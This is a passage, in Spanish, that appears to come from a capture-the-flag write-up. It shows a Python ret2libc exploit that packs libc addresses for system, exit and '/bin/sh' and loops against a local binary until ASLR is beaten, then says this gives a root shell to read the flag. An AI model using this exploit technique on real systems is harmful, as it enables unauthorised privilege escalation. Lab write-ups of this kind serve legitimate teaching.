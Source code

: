 ```python
system_addr_offset = 0x0003ada0
exit_addr_offset = 0x0002e9d0
bin_sh_addr_offset = 0x0015ba0b

system_addr = pack("<I", base_libc + system_addr_offset)
exit_addr = pack("<I", base_libc + exit_addr_offset)
bin_sh_addr = pack("<I", base_libc + bin_sh_addr_offset)

payload = junk + system_addr + exit_addr + bin_sh_addr

# Lanzamos el bucle infinito hasta que la direccion sea la buena
while True:
    #lanzamos el subprocess y almazenamos el codigo de estado en una variable ret
    ret = call(["/home/ayush/.binary/rop", payload])
    # Si el codigo de estado es exitoso salimos del programa
    if ret == 0:
        print("\n[+] Saliendo del programa...\n")
        sys.exit(0)
```

lanzamos el script con `python exploit.py` y esperamos de salir del bucle infinito para ganar la shell como root y leer la flag.
